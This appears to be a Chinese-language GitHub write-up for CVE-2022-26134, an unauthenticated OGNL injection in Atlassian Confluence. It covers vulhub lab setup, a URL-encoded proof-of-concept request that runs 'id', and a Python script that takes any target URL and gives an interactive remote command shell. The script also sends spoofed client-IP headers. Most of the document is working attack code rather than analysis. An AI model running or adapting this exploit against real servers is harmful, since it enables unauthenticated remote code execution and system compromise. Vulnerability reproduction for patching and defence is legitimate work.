


# CVE-2022-26134

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** Atlassian Confluence OGNL表达式注入命令执行漏洞


# 0x01 漏洞概述

Atlassian Confluence 是一款各企业广泛使用的 wiki 系统。在Atlassian Confluence Server and Data Center上存在OGNL 注入漏洞，远程攻击者在未经身份验证的情况下，可构造OGNL表达式进行注入，实现在Confluence Server或Data Center上执行任意代码。

# 0x02 影响范围


# 0x03 环境搭建

使用vulhub搭建

执行如下命令启动一个Confluence Server 7.13.6：

```
cd confluence/CVE-2022-26134
docker compose up -d
```

环境启动后，访问 `http://your-ip:8090` 安装向导，选择“试用安装”，然后会要求填写许可证密钥，需要向 Atlassian 申请 Confluence Server 测试证书。

在数据库配置页面，填写数据库地址db、数据库名称confluence、用户名postgres、密码postgres。



# 0x04 漏洞复现

## 方式一：通过POC

```
GET /%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22id%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/ HTTP/1.1
Host: your-ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close

```


其中使用到的OGNL表达式如下：

```
${(#a=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec("id").getInputStream(),"utf-8")).(@com.opensymphony.webwork.ServletActionContext@getResponse().setHeader("X-Cmd-Response",#a))}。
```

## 方式二：通过脚本

```
# CVE编号：cve-2022-26134
# By A-little-dragon

from datetime import datetime
import requests
from urllib.parse import quote

def GetTime():
    return datetime.strftime(datetime.now(), '%Y-%m-%d %H:%M:%S')

headers = {
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36",
    "Accept-Encoding": "gzip, deflate, br, zstd",
    "Accept-Language": "zh-CN,zh;q=0.9",
    "Pragma": "no-cache",
    "Priority": "u=0, i",
    "Sec-Ch-Ua": '"Not/A)Brand";v="8", "Chromium";v="126", "Google Chrome";v="126"',
    "Sec-Ch-Ua-Mobile": "?0",
    "Sec-Ch-Ua-Platform": '"Windows"',
    "Sec-Fetch-Dest": "document",
    "Sec-Fetch-Mode": "navigate",
    "Sec-Fetch-Site": "none",
    "Sec-Fetch-User": "?1",
    "Upgrade-Insecure-Requests": "1",
    "Ali-Cdn-Real-Ip": "localhost",
    "Cache-Control": "no-cache",
    "Cdn-Real-Ip": "localhost",
    "Cdn-Src-Ip": "localhost",
    "Cf-Connecting-Ip": "localhost",
    "Client-Ip": "localhost",
    "Forwarded": "localhost",
    "Forwarded-For": "localhost",
    "Proxy-Client-Ip": "localhost",
    "True-Client-Ip": "localhost",
    "Wl-Proxy-Client-Ip": "localhost",
    "X-Cluster-Client-Ip": "localhost",
    "X-Forwarded": "localhost",
    "X-Forwarded-For": "localhost",
    "X-Originating-Ip": "localhost",
    "X-Real-Ip": "localhost",
    "X-Remote-Addr": "localhost",
    "X-Remote-Ip": "localhost"
}

def start():
    url = input("Set Target URL > ")
    print(f"[+] {GetTime()} Start executing the attack program!")
    while True:
        try:
            command = input("$ > ")
            res = requests.get(
                url=url + f"/%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22{quote(command)}%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/",
                headers=headers, allow_redirects=False)
            if res.status_code == 302:
                print(f"[+] {GetTime()} 执行成功！")
                print(res.headers.get("X-Cmd-Response"))
            else:
                print(f"[-] {GetTime()} 执行失败！")
        except Exception as e:
            print(f"[-] {GetTime()} 执行失败,原因如下：", e)

if __name__ == '__main__':
    start()

```


